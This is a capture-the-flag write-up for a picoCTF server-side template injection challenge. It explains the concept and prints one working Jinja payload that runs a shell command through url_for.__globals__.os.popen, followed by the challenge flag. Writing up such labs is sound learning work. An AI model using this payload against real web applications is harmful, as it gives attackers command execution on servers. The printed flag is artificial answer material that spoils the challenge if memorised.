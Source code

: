 # 1. SSTI1

> I made a cool website where you can announce whatever you want! Try it out! Additional details will be available after launching your challenge instance.
> The challenge demanded that I make use of a server-side template injection attack to display the flag on the screen. 

## Solution:
I made use of the fact that I could write into the template of the website using `{{}}` and the server would return whatever changes I made (respond to the change)
then, I injected the following line into the dialog box.

```
{{url_for.__globals__.os.popen("cat flag").read()}}
```
<br/>
Web page :

<img width="1920" height="1128" alt="image" src="https://github.com/user-attachments/assets/7146ef7e-dcd2-483e-b03d-2c00030c4048" />

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```

## Concepts learnt:

- **Templates** : Some webpages have dynamic mutable elements that can be changed, they are present in `{{}}`(this depends on syntax, Jinja usese `{{}}`)
- **Template Injections** - When user inputs in templates can be manipulated/tampered with to get data.
- In order to interact with the shell, we need to get into the os module, i.e. find a path to it and then execute whatever we want.
- `url_for` helps in locating any python function(which contaings `import os`)

## Notes:

- The challenge also could be solved using `curl` first to check the vulnerability and then to inject.
- 

## Resources:
I learnt about SSTI from :

- [https://www.youtube.com/watch?v=SN6EVIG4c-0]


***
